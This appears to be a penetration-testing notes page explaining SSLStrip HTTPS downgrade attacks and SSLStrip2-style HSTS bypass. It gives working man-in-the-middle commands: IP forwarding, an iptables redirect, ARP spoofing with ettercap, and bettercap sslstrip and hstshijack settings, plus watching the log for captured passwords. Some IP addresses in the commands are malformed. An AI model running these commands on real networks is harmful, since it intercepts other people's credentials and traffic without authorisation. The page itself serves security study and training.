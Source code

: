 # HTTPS Downgrade / HSTS Bypass

{% embed url="https://itigic.com/how-to-decrypt-https-traffic-with-bettercap-on-linux" %}

## HTTPS

HTTPS or HTTP over SSL is relied upon as a critical network technology for many organizations, used by web browsers and many other applications to protect the confidentiality, integrity, and authenticity of data. Certificate validation for HTTPS has significantly improved in web browsers in the past few years, where earlier browsers would make it too simple for an uninformed user to accept a certificate warning without understanding the impact of doing so.

{% hint style="info" %}
#### Modern web browsers such as Firefox demonstrate a significant warning when a certificate is invalid for any reason, as shown on this slide. To bypass this warning and continue with the invalid certificate, the user must click through five options before continuing.
{% endhint %}

## HTTPS Downgrade Attack

### SSLStrip

Instead of using an invalid certificate and tricking the user into terminating the SSL session with the attacker, Sslstrip avoids any certificate warnings by rewriting all HTTP traffic to remove references to HTTPS. Sslstrip proxies all traffic intended to use SSL to the legitimate SSL server, but only responds with HTTP traffic to the victim, allowing the attacker to access all content while logging activity such as POST statements. Sslstrip also uses some clever tricks to assuage user concerns about seeing their traffic sent over HTTP instead of HTTPS.

![](<../../.gitbook/assets/image (301) (1) (1).png>)

Sslstrip takes advantage of a common flaw in HTTPS websites: Many users start with a plain HTTP request, which is later redirected to HTTPS by the server. Consider, for example, logging in to a Gmail account. Very few users will enter "https://www.gmail.com" in the web browser, instead relying on Gmail to redirect HTTP traffic to HTTPS. However, since the user is relying on a weak protocol (HTTP) to redirect them, the security of a stronger protocol (HTTPS) is threatened.

#### Sslstrip does not allow an attacker to eavesdrop on activity sent exclusively via an HTTPS server without being redirected from an HTTP site.

#### turn on IP forwarding

```
echo 1 >/proc/sys/net/ipv4/ip_forward
```

#### redirect all HTTP (tcp 80) traffic to the sslstrip process listening on port 8080.

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

#### start sslstrip listening on port 8080

```
sslstrip -l 8080
```

#### become MitM through ARP spoofing with ettercap

```
ettercap -TqM arp:remote /10.10.10.1254// /10.10.10.1-254//
```

#### monitor `sslstrip.log` or watch ettercap for passwords

```
tail -f sslstrip.log
```

### Ettercap SSLStrip Plugin

```
ettercap -TqM arp:remote -P sslstrip /172.16.0.1// /172.16.0.11//
```

### Bettercap SSLStrip&#x20;

```
http.proxy on/off
# enable SSL strip attack
set http.proxy.sslstrip true/false

https.proxy on/off
# enable SSL strip attack
set https.proxy.sslstrip true/false
```

## HSTS

To address the prevalent exposure to Sslstrip attacks, the IETF introduced RFC 6797 (https://tools.ietf.org/html/rfc6797), which introduced the HTTP Strict-Transport-Security (HSTS) header option for websites. When the Strict-Transport-Security header is set on any response from a website, the browser records that the server expects all activity with the server to be transmitted over HTTPS.

The HSTS option partially mitigates Sslstrip attacks. If the victim previously visited a website that set the HSTS header and an attacker attempts to rewrite links and content to remove the https:// prefix, the browser refuses to visit the site over HTTP. In addition, sites marked as using HSTS do not show users certificate warnings with an option to continue the transaction; instead, the browser indicates an error and refuses to communicate with the HTTPS site until the certificate issue has been resolved (also eliminating the attacker's option to mount SSL MitM attacks against an HSTS site).

## HSTS Bypass

browsers match the hostname of the server requested to the list of sites that use HSTS. If the hostname of the requested URL matches a hostname known to use HSTS, the browser refuses to load the content if the URL is rewritten by Sslstrip as an HTTP link (or display a certificate error with a continue option if there is a certificate error).

![](<../../.gitbook/assets/image (302) (1).png>)

when an initial page is loaded over HTTP, an attacker can rewrite links to strip the HTTPS links, and it can change the requested hostnames as well. In the example shown on this page, the victim starts the browser by visiting http://www.kickstarter.com. The Kickstarter website returns content and links over HTTP, which the attacker modifies in two ways: First, HTTPS links are rewritten as HTTP links, and, second, the hostname in HTTPS links is changed slightly, such as adding another "w" in "www" ("www" to "wwww") or any other modification that changes the hostname.

If the victim clicks a modified link (https://www.facebook.com from Kickstarter is modified by Sslstrip2 to be http://wwww.facebook.com), the request is automatically forwarded to the upstream site as https://www.facebook.com, but the content is delivered to the victim downstream over HTTP (again, rewriting links and hostnames to avoid HTTPS and HSTS policies). The victim's browser never raises an error about an insecure site because the HSTS policies are never matched due to modified hostnames observed by the victim.

{% hint style="info" %}
A new twist on this attack was released by Jose Selva. He demonstrated spoofing NTP traffic to force the HSTS record to be expired by the victim browser.
{% endhint %}

### Bettercap SSLStrip

#### (for older versions)

```
bettercap --proxy -T 1172.16.0.186 -P POST
```

#### (for newer versions)

```
bettercap
» hstshijack/hstshijack
```
